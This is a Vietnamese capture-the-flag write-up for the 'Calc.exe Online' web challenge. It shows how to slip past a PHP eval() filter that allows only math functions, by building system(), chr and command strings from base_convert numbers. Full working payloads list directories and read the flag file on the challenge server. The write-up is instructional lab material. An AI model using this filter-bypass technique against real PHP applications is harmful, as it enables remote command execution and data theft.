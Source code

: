 # write up

Chall: http://chall.ctf.bamboofox.tw:13377/

Source: https://github.com/rimc2t/write-up-cho-vui/blob/main/BambooFox-CTF/%5BWeb%5D%20Calc.exe%20Online/source.php

Cùng nhìn tổng quan đề bài 1 xíu nhé!!!!

## Overview

![hinh1](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/139404612_1360916280927703_9149939801016827697_n.png?_nc_cat=110&ccb=2&_nc_sid=730e14&_nc_ohc=ve9-OBZQPt4AX9JueT5&_nc_ht=scontent.fsgn2-6.fna&oh=0f8e721f4bf481312e71ad7a610e3cb4&oe=6028F116)

Ctr+U coi đi kiếm source xíu. Ồ cho file source nè:

![hinh3](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/138395872_1360917480927583_7950565622394537985_n.png?_nc_cat=100&ccb=2&_nc_sid=730e14&_nc_ohc=HMV2LUg9jkUAX8eqRtb&_nc_ht=scontent.fsgn2-6.fna&oh=37fd2f612f637ea1f216aa900d2adc8c&oe=602818A5)

![hinh4](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/139193741_1360967837589214_4621736347075272027_n.png?_nc_cat=100&ccb=2&_nc_sid=730e14&_nc_ohc=7aM6q8fo3K8AX8SNyCb&_nc_ht=scontent.fsgn2-6.fna&oh=c0f13bebd2a13e2a6328c4dab36ed650&oe=60280BD5)

Nào như mọi lần tui bắt đầu đi đọc code và kết luận vài dòng:

- Đây là code php
- Có 2 cái function
- Param của mình truyền vào là đi qua hàm **safe_eval**
- Trong **safe_eval**, nó đưa param của mình cho **is_safe** kiểm tra
- Trong **is_safe**, nó bắt đầu chạy code các kiểu -> tóm tắt lại rằng: Chỉ được dùng các hàm trong toàn học, và toán tử +-\*/
- Sau khi **is_safe** true sẽ cho chúng ta thực thi (eval), ngược lại sẽ xuất ra màn hình 1 chuỗi.

> Vậy giải pháp rút ra là phải inject vào 1 đoạn code sao cho hàm **is_safe** trả về true rồi tạo thành 1 command có nghĩa để thực thi được đến server server.

## SEEKING
Mình là một con gà mờ về ctf. Nên khi đọc vào trong đầu nghĩ là *"Ủa? sao được ta? hàm của toán để nó thành command có nghĩa kiểu gì?"*. Quyết định ăn miếng bánh thư giãn cho đầu óc suy nghĩ ngoài cái hộp. Ngẫm nghĩ lại lúc trước có làm (đọc write up làm theo) một số bài web thì các bài liên quan đến **eval()** thì exploit trực tiếp vô luôn, còn cái này có *filter* thì thường dùng những kỹ thuật xor hay bằng cách nào đấy biến số thành chữ.

>Thế là mình quyết định đi tìm các hàm biến số thành chữ hêh

Lúc đầu đi tìm thì mình thấy 1 vài hàm như **dechex** **decoct** thì mình dzui vì thấy có khả năng, mà nghĩ lại: *"Ủa :)) phải có đủ bảng chữ cái chứ, hong ổn rồi"*
Một hồi mình nhìn kỹ xíu nữa thì thấy 1 hàm **base_convert**, hehe nghe xịn mình liền lên w3school tìm hướng dẫn sử dụng (tại w3 có chỗ debug luôn nên mình ưu tiên).

![hinh5](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/139701687_1360932737592724_2820394334159202042_n.png?_nc_cat=100&ccb=2&_nc_sid=730e14&_nc_ohc=HND36JbcqNYAX_Rhwq7&_nc_ht=scontent.fsgn2-6.fna&oh=ddfb680eaf96e04f88bb9ba9b463eed4&oe=6027B6DF)

![hinh6](https://scontent.fsgn2-3.fna.fbcdn.net/v/t1.0-9/139477082_1360935034259161_5270276016675269189_n.png?_nc_cat=106&ccb=2&_nc_sid=730e14&_nc_ohc=yYgHu-x5GasAX9knpwh&_nc_ht=scontent.fsgn2-3.fna&oh=98630cfbf2d6a09f6fb8def9ee4edaf9&oe=60291091)

Thử chuyển hệ 36 sang hệ 10 luôn nè:

![hinh7](https://scontent.fsgn2-3.fna.fbcdn.net/v/t1.0-9/139718552_1360935947592403_3256650028083666150_n.png?_nc_cat=106&ccb=2&_nc_sid=730e14&_nc_ohc=mLDYAutpJscAX_No6zB&_nc_ht=scontent.fsgn2-3.fna&oh=93b0061201edcfdda66df394016cf1c4&oe=6029D635)

Hehe boizzz, ngonnnnn

>Sau khi đã tìm được hồ cá, lượm được cần câu. Giờ phải dùng kỹ năng đi câu hoyyyyyyyyy

## INJECTION
Quay lại với hình 1 nhé, coi lại chỗ để nhập phép tính. Trong đầu phải ghi nhớ rằng: *"Bây giờ phải dùng **base_convert** để biến những con số thành 1 command có nghĩa rồi bỏ vô payload này nhaaaa"*

### system(ls)

>system():					base_convert(1751504350,10,36)()
>ls:						    base_convert(784,10,36)
>**PAYLOAD: base_convert(1751504350,10,36)(base_convert(784,10,36))**
Sau đó sẽ trả về kết quả:

![hinh8](https://scontent.fsgn2-3.fna.fbcdn.net/v/t1.0-9/139471146_1360942944258370_7846989612733427119_n.png?_nc_cat=106&ccb=2&_nc_sid=730e14&_nc_ohc=x7CD47HUc1kAX85inpR&_nc_ht=scontent.fsgn2-3.fna&oh=d451023b8209c672721204c1e1177bbd&oe=6026CED9)

Ò ở đây chỉ có index chứ hong có flag :(
Mình đi ra thư mục gốc xem thử có flag ngoài đó hong

### system(ls /)
Lúc này có cái khó khăn là có khoảng trắng và dấu '/'. hmmmmm? làm shaooooo?
Mình tìm mọi cách và được chỉ dẫn đến sử dụng **ord** để lấy mã ascii 1 chữ và **chr** để đổi ascii ra ký tự. Việc mình cần làm là gọi hàm **chr** thông qua hàm **base_convert** và số (số này là đổi chuỗi "chr" từ base-36 sang base-10). Tiếp đó dùng các dấu '.' để nối các hàm lại với nhau.
>system():					base_convert(1751504350,10,36)()
>ls:						    base_convert(784,10,36)
>space:             base_convert(16191,10,36)(32)
>/:                 base_convert(16191,10,36)(47)
>**PAYLOAD: base_convert(1751504350,10,36)(base_convert(784,10,36).base_convert(16191,10,36)(32).base_convert(16191,10,36)(47))**
Nhận ngay kết quả: 

![hinh9](https://scontent.fsgn2-4.fna.fbcdn.net/v/t1.0-9/137328100_1360948444257820_2551682331755669394_n.png?_nc_cat=101&ccb=2&_nc_sid=730e14&_nc_ohc=LNzI_tUCEPsAX9gLo1d&_nc_ht=scontent.fsgn2-4.fna&oh=113d5590d5f2fa6155970803f6328907&oe=60294521)

Á à thì ra flag nằm ngày đây: **flag_a2647e5eb8e9e767fe298aa012a49b50**
Giờ thì mình mở ra xem hoyyyyy

### system(cat /flag_a2647e5eb8e9e767fe298aa012a49b50)
>system():					                   base_convert(1751504350,10,36)()
>cat:						                      base_convert(15941,10,36)
>space:						                    .base_convert(16191,10,36)(32)
>/:						                        .base_convert(16191,10,36)(47)
>flag:					                    	.base_convert(727432,10,36)
>_:				                         		.base_convert(16191,10,36)(95)
>a2647e5eb8e9e767fe298aa012a49b50):		.base_convert(788365066082,10,36)
>						                         	.base_convert(880282369231,10,36)
>						                         	.base_convert(1206073849608,10,36)
>					                        		.base_convert(83329543332,10,36)

Đoạn nào chữ thôi thì mình chỉ cnầ dùng **base_convert** còn đoạn nào có ký tự đặc biệt thì mình kết hợp với **chr** (16191 base36) nữa nhé!
Ở chuỗi chữ và số dài loằng ngoằng kia ban đầu mình chỉ dùng 1 lần **base_convert** nhưng mà nó bị tràn số ra kết quả hong chính xác nên mình chia thành 4 đoạn.
Giờ chỉ cần ghép lại tất cả để có payload chính xác:

>>**PAYLOAD: base_convert(1751504350,10,36)(base_convert(15941,10,36).base_convert(16191,10,36)(32).base_convert(16191,10,36)(47).base_convert(727432,10,36).base_convert(16191,10,36)(95).base_convert(788365066082,10,36).base_convert(880282369231,10,36).base_convert(1206073849608,10,36).base_convert(83329543332,10,36)) **

Hơi dài nhưng chỉ 405chars vẫn thỏa < 1024 của đề bài. Cuối cùng nhận được kết quả:

![hinh10](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/139449877_1360956844256980_5107937802172987774_n.png?_nc_cat=110&ccb=2&_nc_sid=730e14&_nc_ohc=c2LKQLlWJnwAX8XJqRI&_nc_ht=scontent.fsgn2-6.fna&oh=652d2a0cf660532758b0dfc732742e23&oe=60277931)


***Trên đây là tất cả write-up của mình về bài "Calc.exe Onl", trình còn kém nên làm còn mơ hồ, diễn giải có thể màu mè hoặc không đúng. Mong bạn đọc có thể đóng góp ý kiến <3 Chân thành cảm ơn!***
